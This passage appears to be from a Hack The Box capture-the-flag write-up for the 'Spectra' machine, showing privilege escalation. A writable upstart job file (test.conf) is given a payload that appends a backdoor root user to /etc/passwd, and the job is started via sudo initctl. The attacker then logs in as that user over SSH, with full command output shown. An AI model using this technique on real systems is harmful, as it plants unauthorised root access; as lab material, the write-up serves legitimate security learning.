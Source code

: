 The misconfiguration allowed to **poison one of the test.conf file** and inject a payload which **added a new root user** once the job was started:
```bash
katie@spectra /etc/init $ nano test.conf
description "Test node.js server"
author      "katie"

start on filesystem or runlevel [2345]
stop on shutdown

script
	echo "root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash" >> /etc/passwd
end script
^X

katie@spectra /etc/init $ sudo /sbin/initctl stop test
initctl: Unknown instance:
katie@spectra /etc/init $ sudo /sbin/initctl start test
test start/running, process 12820
katie@spectra /etc/init $ cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash
```

The malicious `root2` user was finally used to login and obtain high privileges:
```bash
┌──(kali㉿kali)-[~/CTFs/HTB/box/Spectra]
└─$ ssh root2@10.10.10.229
Password: evil
spectra ~ # whoami && id && cat /root/root.txt && ifconfig
root
uid=0(root) gid=0(root) groups=0(root)
d44519713b889d5e1f9e536d0c6df2fc
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.10.229  netmask 255.255.255.0  broadcast 10.10.10.255
        inet6 dead:beef::250:56ff:feb9:5feb  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:5feb  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::e082:c752:1943:1f86  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:5f:eb  txqueuelen 1000  (Ethernet)
        RX packets 18984  bytes 2394803 (2.2 MiB)
        RX errors 0  dropped 131  overruns 0  frame 0
        TX packets 27122  bytes 15426070 (14.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 15717  bytes 6158983 (5.8 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 15717  bytes 6158983 (5.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```
![Pasted image 20210509133632.png]({{page.screenshots}}Pasted image 20210509133632.png)
